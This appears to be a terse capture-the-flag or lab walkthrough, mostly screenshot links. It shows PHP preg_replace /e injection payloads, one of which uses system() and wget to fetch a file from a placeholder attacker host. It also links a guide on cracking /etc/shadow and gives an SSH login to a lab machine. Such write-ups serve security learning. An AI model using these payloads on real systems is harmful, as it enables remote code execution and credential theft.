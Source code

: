 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2361431a-bf37-44b2-806a-b76500028462)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9abfe5ff-af2e-4673-a9a1-4e31626755ba)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3c63736c-a880-4232-9dfd-ed420b507e97)

https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/019d9fe1-3ab4-47b8-a34b-21e260c328b7)

`pattern=/a/e&replace=phpinfo();&paragraph=4`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4284093c-88d1-4a76-9082-4bdc1b38b788)

`pattern=/a/e&replace=system('wget http://ip:1234/test1.php');&paragraph=4`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/db5f7de7-99bd-4d02-bb84-28a8f577839e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ecfee481-71ea-45ba-8aa7-f4f88683a09f)

https://erev0s.com/blog/cracking-etcshadow-john/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/61f842eb-f859-40f1-a1c8-35e33236d643)

`ssh derek@62.173.140.174 -p 18722`




